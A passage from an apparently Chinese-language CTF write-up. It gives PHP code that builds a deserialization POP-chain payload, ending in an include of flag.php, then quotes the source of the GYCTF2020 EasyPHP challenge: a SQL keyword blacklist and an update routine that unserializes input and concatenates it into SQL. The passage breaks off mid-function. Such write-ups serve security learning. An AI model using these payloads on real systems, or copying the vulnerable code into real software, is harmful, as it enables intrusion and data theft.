     反序列化->调用Show类中魔术方法__wakeup->preg_match()函数对Show类的属性source处理->调用Show类中魔术方法__toString->返回Show类的属性str中的属性source(此时这里属性source并不存在)->调用Test类中魔术方法__get->返回Test类的属性p的函数调用结果->调用Modifier类中魔术方法__invoke->include()函数包含目标文件(flag.php)

    构造payload的代码(读取flag.php中的flag需要伪协议)：

    ```php
        <?php
        class Modifier {
            protected  $var="flag.php";
        }
        class Show{
            public $source;
            public $str;
        }
        class Test{
            public $p;
        }
        $a = new Show();
        $b= new Show();
        $a->source=$b;
        $b->str=new Test();
        ($b->str)->p=new Modifier();
        echo urlencode(serialize($a));
    ```

#### GYCTF2020 EasyPHP(反序列化SQL注入)

1. 尝试了一下robots.txt,没反应；有尝试了一下www.zip,拿到了源码。关键php文件update.php和lib.php

    lib.php
    ```php
    <?php
    error_reporting(0);
    session_start();
    function safe($parm){
        $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
        return str_replace($array,'hacker',$parm);
    }
    class User
    {
        public $id;
        public $age=null;
        public $nickname=null;
        public function login() {
            if(isset($_POST['username'])&&isset($_POST['password'])){
            $mysqli=new dbCtrl();
            $this->id=$mysqli->login('select id,password from user where username=?');
            if($this->id){
            $_SESSION['id']=$this->id;
            $_SESSION['login']=1;
            echo "你的ID是".$_SESSION['id'];
            echo "你好！".$_SESSION['token'];
            echo "<script>window.location.href='./update.php'</script>";
            return $this->id;
            }
        }
    }
        public function update(){
            $Info=unserialize($this->getNewinfo());
            $age=$Info->age;
            $nickname=$Info->nickname;
            $updateAction=new UpdateHelper($_SESSION['id'],$Info,"update user SET age=$age,nickname=$nickname where id=".$_SESSION['id']);
            //这个功能还没有写完 先占坑